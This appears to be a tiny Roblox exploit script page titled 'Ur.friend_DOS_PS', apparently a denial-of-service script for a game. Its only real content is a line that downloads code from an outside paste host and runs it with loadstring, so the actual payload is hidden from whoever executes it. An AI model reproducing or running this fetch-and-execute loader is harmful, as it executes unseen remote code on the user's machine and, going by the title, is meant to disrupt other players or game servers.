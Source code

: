 # Ur.friend_DOS_PS
Hello
wait("0.2")
loadstring(game:HttpGet("https://api.rubis.app/v2/scrap/YSMcHwh3yHpILYde/raw", true))()
